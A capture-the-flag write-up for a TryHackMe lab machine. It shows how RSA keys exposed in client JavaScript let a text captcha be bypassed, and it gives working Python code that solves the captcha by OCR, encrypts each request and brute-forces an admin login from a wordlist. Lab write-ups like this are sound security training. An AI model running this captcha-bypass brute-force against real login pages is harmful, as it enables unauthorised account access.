




# CAPTCHApocalypse — TryHackMe Writeup

## ⚠️ Disclaimer

This writeup was created solely for educational and research purposes, as
part of legal information-security training.

The machine covered here is a retired room on the TryHackMe platform —
access to completing it and publishing a writeup is granted by the
platform itself, in accordance with its Acceptable Use Policy. The tools,
techniques, and code fragments used are intended only for work in a
controlled learning environment (TryHackMe) and are not meant to be used
against real systems, services, or applications without the explicit
written permission of their owner.

The author does not encourage and is not responsible for unauthorized
access to computer systems, nor for any actions taken by third parties
using the information in this writeup. All information is provided "as
is," solely for the purpose of raising awareness in the field of
cybersecurity.

TryHackMe interface elements shown below are used for educational purposes
(fair use), with no claim to the platform's authorship.

## Intro

A dev locked down a site with a text captcha? And now swears brute force
is a non-starter?

Today — a machine from TryHackMe where we'll take that apart, no mercy.

## About the machine

The machine is called CAPTCHApocalypse. It runs Linux, web-oriented. The
task hint: use only the first 100 words from the `rockyou.txt` wordlist —
so, brute force it is.

## Recon

Nmap isn't really needed here — the goal is already clear from the task:
bypass the captcha.

Hit the IP in a browser and you land straight on a login form: username,
password, and a captcha. Throw something simple in and check the
response.



Okay. Let's see what's happening under the hood, through Burp Suite. On
submitting the login, password, and captcha, the client sends a single
request to `server.php`, and it carries encrypted data: a `data`
key-value pair and ciphertext.



In the page source of `index.php`, via Ctrl+U, we find that the captcha is
actually requested by the client in a separate request, after the page
has already loaded.

That request was filtered out of Burp by default — remove the filter, and
there it is: the captcha.

Open the endpoint directly and you get an image with text. Refresh a few
times and a new picture, with new text, comes back every time. The
captcha is generated on the fly. It's worth a shot to intercept and read
it.

Looking for something else interesting. Fire up GoBuster, scope it to
`php, txt, js` extensions. The idea is: if we need a captcha bypass, it's
likely down to application logic.



GoBuster turns up some interesting directories and a `script.js` file. A
custom JS file doesn't just sit in a regular web app for no reason.

Open `script.js` — and there's the vulnerability. It hands us: the
server's public key, the client's private key, encryption/decryption
functions, and a `login` function with the full list of request
parameters — CSRF token, `action`, `username`, `password`,
`captcha_input`. All parameters get converted to plaintext.



That wraps up recon — time to move into weaponization.

## Weaponization

Our goal: brute-force the login, bypassing the captcha, using the
vulnerability we found. For that we need a script that will:

1. Send a GET request to `index.php`, get a cookie.
2. Send a GET request to `captcha.php`, get the captcha and save it as an
   image file.
3. Process the captcha and return the text.
4. Assemble the parameters needed for the request body.
5. Build the plaintext from those parameters and encrypt it.
6. Send a POST request to `server.php` within the session created earlier.
7. Get the response and decrypt it, so we can check the result.

Steps 1 and 2 are simple, no need to dig in:

```python
def get_session_and_csrf():
    get_request = requests.get(f"{BASE_URL}/index.php?error=true")
    session_id = get_request.cookies.get("PHPSESSID")
    soup = BeautifulSoup(get_request.text, "html.parser")
    csrf_token = soup.find("input", {"id": "csrf_token"})["value"]
    return session_id, csrf_token


def get_captcha_image(session_id: str) -> None:
    headers = {
        "Accept": "image/avif,image/webp,image/png,*/*",
        "Referer": f"{BASE_URL}/index.php?error=true",
        "User-Agent": "Mozilla/5.0",
        "Cookie": f"PHPSESSID={session_id}",
    }
    captcha_request = requests.get(f"{BASE_URL}/captcha.php", headers=headers)
    if captcha_request.headers.get("Content-Type", "").startswith("image/"):
        with open("captcha.png", "wb") as f:
            f.write(captcha_request.content)
```

Step 3 — tried two options for captcha recognition: EasyOCR and
PyTesseract. EasyOCR got it wrong noticeably more often; PyTesseract
turned out to be much more stable — actually usable. Before recognition,
the image also gets run through OpenCV — binarization removes the blur.
But recognition still isn't perfect, so the whole thing is wrapped in a
loop: if the captcha fails, request a new one and try again.

```python
def solve_captcha(image_path: str) -> str:
    # Binarization removes blur before recognition
    img = cv2.imread(image_path, 0)
    _, binary_img = cv2.threshold(img, 180, 255, cv2.THRESH_BINARY)

    custom_config = (
        r"--oem 3 --psm 7 "
        r"-c tessedit_char_whitelist=0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    )
    text = pytesseract.image_to_string(binary_img, lang="eng", config=custom_config)
    return text.strip().replace(" ", "")
```

Step 4. `action` — static `login`. `username` — `admin`, from the task
description. `captcha_input` — taken from the image we just processed.
`password` — brute-forced from the rockyou wordlist. The CSRF token is
pulled from the HTML using BeautifulSoup, by id, in `index.php`.

Parameters assembled… now convert to plaintext and encrypt. In
`index.php` there's a `toString()` method working on these parameters.
Looking for the Python equivalent — the `urlencode` method.

```python
params = {
    "action": "login",
    "csrf_token": csrf_token,
    "username": username,
    "password": password,
    "captcha_input": captcha_input,
}
plain = urlencode(params)
```

Run it through that method to get plaintext — and voilà. Next, encryption
and decryption. Time to call in the powers of divine AI and figure out
which algorithm this is and how to work with it.

Thanks to Claude for identifying the algorithm. Encryption is RSA,
`PKCS1_v1_5`, using the server's public key. Add 2 libraries:

```python
from Crypto.Cipher import PKCS1_v1_5
from Crypto.PublicKey import RSA
```

```python
public_key = RSA.import_key(public_key_pem)
encrypt_cipher = PKCS1_v1_5.new(public_key)

private_key = RSA.import_key(private_key_pem)
decrypt_cipher = PKCS1_v1_5.new(private_key)


def encrypt_data(plain_text: str) -> str:
    encrypted = encrypt_cipher.encrypt(plain_text.encode("utf-8"))
    return base64.b64encode(encrypted).decode()
```

Encrypt our plaintext with the public key. Drop our `data` into the body
and build a POST request with the required headers to the server. Get
back encrypted `data`.

```python
encrypted_params = encrypt_data(plain)

headers_post = {
    "Content-Type": "application/json",
    "Referer": f"{BASE_URL}/index.php?error=true",
    "User-Agent": "Mozilla/5.0",
    "Cookie": f"PHPSESSID={session_id}",
}
post_request = requests.post(
    f"{BASE_URL}/server.php",
    headers=headers_post,
    json={"data": encrypted_params},
)
```

Ask Claude to write the decryption function using the private key and the
ciphertext… Result… Great:

```python
def decrypt_data(encrypted_data: str) -> str:
    try:
        decrypted = decrypt_cipher.decrypt(base64.b64decode(encrypted_data), None)
        if decrypted is None:
            return "Decryption Failed"
        return decrypted.decode("utf-8")
    except Exception:
        return "Decryption Failed"
```

## Attack

Now wrap all of it in a loop and handle the "CAPTCHA incorrect" and
"wrong login" responses. Anything else — that's the answer.

```python
def main():
    for i, password in enumerate(data.split("\n")[:100], start=1):
        result = "CAPTCHA incorrect."

        # Keep retrying until the captcha is read correctly (the server won't respond otherwise)
        while result == "CAPTCHA incorrect.":
            session_id, csrf_token = get_session_and_csrf()
            get_captcha_image(session_id)
            captcha_input = solve_captcha("captcha.png")
            result = try_login(session_id, csrf_token, password, captcha_input)

        print(f"pass_count: {i} | username: {username} | password: {password!r} | status: {result}")

        if result != "Login failed!":
            # Neither "CAPTCHA incorrect" nor "Login failed" — password found
            print(f"[+] Password found: {password!r}")
            break


if __name__ == "__main__":
    main()
```

## Result

The script runs through the first hundred passwords from `rockyou.txt`
for the `admin` user, going through the full cycle on every attempt
(session → CSRF → captcha → recognition → encryption → request →
decrypting the response) and prints progress along the way. As soon as
the server's response doesn't match either "CAPTCHA incorrect" or "wrong
login" — the password is found, and the loop stops.

## Summary: the attack chain

1. **Recon** — login form, intercepting the request to `server.php` via
   Burp, GoBuster finds `captcha.php` (hidden behind Burp's filter) and
   `script.js`.
2. **Finding the vulnerability** — `script.js` hands the client the
   server's and the client's RSA keys right in the code, plus the full
   list of request parameters — the login logic can be reproduced on the
   attacker's side.
3. **Weaponization** — our own script: session + CSRF → captcha (OpenCV +
   PyTesseract) → building and encrypting the parameters
   (RSA/`PKCS1_v1_5`) → request to `server.php` → decrypting the
   response.
4. **Attack** — brute-force loop over the first 100 `rockyou.txt`
   passwords for `admin`, re-requesting the captcha on every failed
   recognition attempt.
5. **Result** — see the section above.

## Full script

All the code above is working pieces of one file:
[`script.py`](script.py).
